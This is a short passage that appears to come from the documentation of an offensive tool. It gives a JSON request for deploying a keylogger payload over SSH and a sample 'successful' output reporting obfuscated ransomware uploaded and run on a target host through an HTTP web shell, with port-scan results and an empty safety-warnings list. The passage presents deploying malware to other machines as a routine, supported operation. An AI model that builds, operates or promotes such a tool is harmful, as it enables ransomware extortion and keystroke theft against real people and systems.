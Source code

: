 ### SSH Remote Execution
```javascript
// Deploy and execute via SSH
{
    "mode": "command",
    "target": "192.168.1.100",
    "payload_name": "keylogger",
    "port": 22
}
```

## Output Format

### Successful Deployment and Execution
```json
{
    "success": true,
    "message": "Successfully deployed and executed obfuscated ransomware on 192.168.1.100:443",
    "mode": "command",
    "target": "192.168.1.100",
    "scan_results": [
        {
            "port": 443,
            "protocol": "tcp",
            "service": "https"
        }
    ],
    "deployment_result": {
        "success": true,
        "method": "http",
        "url": "https://192.168.1.100:443/upload",
        "response": "File uploaded successfully"
    },
    "execution_result": {
        "success": true,
        "stdout": "Ransomware executed successfully on target",
        "stderr": "",
        "exitCode": 0,
        "method": "http_web_shell"
    },
    "deployment_result_legacy": {
        "payload_name": "ransomware",
        "success": true,
        "stdout": "Payload executed successfully",
        "stderr": "",
        "execution_time": 15420
    },
    "safety_warnings": []
}
```
